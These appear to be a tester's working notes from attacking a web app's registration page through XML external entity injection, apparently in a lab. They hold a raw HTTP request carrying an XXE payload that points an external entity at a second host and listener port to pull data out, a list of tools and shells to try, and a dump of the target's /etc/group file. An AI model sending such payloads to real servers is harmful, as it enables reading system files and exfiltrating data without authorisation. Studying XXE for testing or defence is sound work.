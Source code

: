 
```
POST /reg.php HTTP/1.1
Host: 192.168.8.3
Content-Length: 200
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://192.168.8.3
Referer: http://192.168.8.3/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % test SYSTEM "192.168.100.9:4444">%test;]>
<root><name>test</name><tel>012312</tel><email>test</email><password>pwd</password></root>
```
https://infosecwriteups.com/exploiting-xml-external-entity-xxe-injection-vulnerability-f8c4094fef83

Things to try

1. automated exploiter - https://github.com/luisfontes19/xxexploiter
not working

2.  xxe shell
not working. maybe i need to change the xml commands as well. it has a php filter how to access that.

3. where to exfiltrate data in linux

https://highon.coffee/blog/linux-commands-cheat-sheet/


/etc/group

```
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:syslog,webadmin
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:iyer
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:webadmin
floppy:x:25:
tape:x:26:
sudo:x:27:webadmin
audio:x:29:pulse
dip:x:30:webadmin
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
```